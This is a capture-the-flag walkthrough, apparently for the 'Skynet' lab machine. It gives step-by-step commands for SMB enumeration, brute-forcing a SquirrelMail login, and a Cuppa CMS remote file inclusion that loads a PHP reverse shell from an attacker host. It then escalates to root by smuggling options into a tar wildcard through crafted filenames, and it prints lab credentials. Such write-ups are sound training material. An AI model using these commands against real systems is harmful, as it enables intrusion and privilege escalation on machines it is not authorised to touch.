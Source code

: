 # Skynet

### **Tasks**:

1. **Deploy and compromise the vulnerable machine!**:
   1. Do Usual nmap scan with `nmap -sC -sV -T5 ip` - Ports 22,80,110,139,143,445 open
   2. Use `smbclient -L \\\\ip\\` to list shares - anonymous,milesdyson unique
   3. Login to anonymous share and download log1.txt & attention.txt - log file contains potential username or passwords. attention.txt(written by Miles Dyson) is sort of message that tells all users to change passwords due to some malicious activity. `get log1.txt` & `get attention.txt` to download the files.
   4. Directory Bruteforce with `gobuster dir --wordlist=/usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://ip/" --threads=100` reveals /squirrelmail which is interesting.
   5. From attention.txt as well as smb share list we can assume there is a user called milesdyson, log1.txt might be potential password, we can use this to bruteforce login page at /squirrelmail. Luckily the first password in log1.txt worked !!! \[milesdyson:cyborg007haloterminator]
   6. In the email, there is samba password for user milesdyson - )s{A&2Z=F^n\_E.B\`
   7. Connect to milesdyson share using Username as milesdyson - `smbclient -U milesdyson \\\\10.10.179.35\\milesdyson` , `get important.txt` from notes directory - It gives information that some CMS exists at /45kra24zxs28v3yd. Doing directory bruteforce on /45kra24zxs28v3yd reveals /administrator endpoint exists inside CMS.
   8. Visiting /45kra24zxs28v3yd/administrator reveals it's Cuppa CMS, Use `searchsploit cuppa` & `searchsploit -x 25971` to know that there is Remote File Inclusion Vulnerability at /alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt endpoint.
   9. Serve Pentest-Money PHP Reverse shell in python http server, start netcat using `nc -nlvp 1234` and open http://victimip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://attackerip:8080/php-reverse-shell.php to get reverse shell.
   10. Run `python -c 'import pty; pty.spawn("/bin/bash")'` to upgrade to interactive shell from default netcat terminal.
   11. `cat /home/milesdyson/user.txt` and submit user flag.
   12. `cat /etc/crontab`, There is some cron job executing every minute at /home/milesdyson/backups/backup.sh.
   13. By looking at the backup.sh we can tell that it's taking backup of files at /var/www/html every minute using `tar cf /home/milesdyson/backups/backup.tgz *`
   14. This is a wildcard vulnerability , `cd /var/www/html`, `echo "chmod 4777 /bin/bash" > bash_suid.sh` (Set SUID bit of bash when executed by root), `echo "" > "--checkpoint-action=exec=sh bash_suid.sh"`, `echo "" > --checkpoint=1`.
   15. After 1 min when new backup task is generated, type `/bin/bash -p` to get root.
   16. `cat /root/root.txt` to get root flag and submit. &#x20;

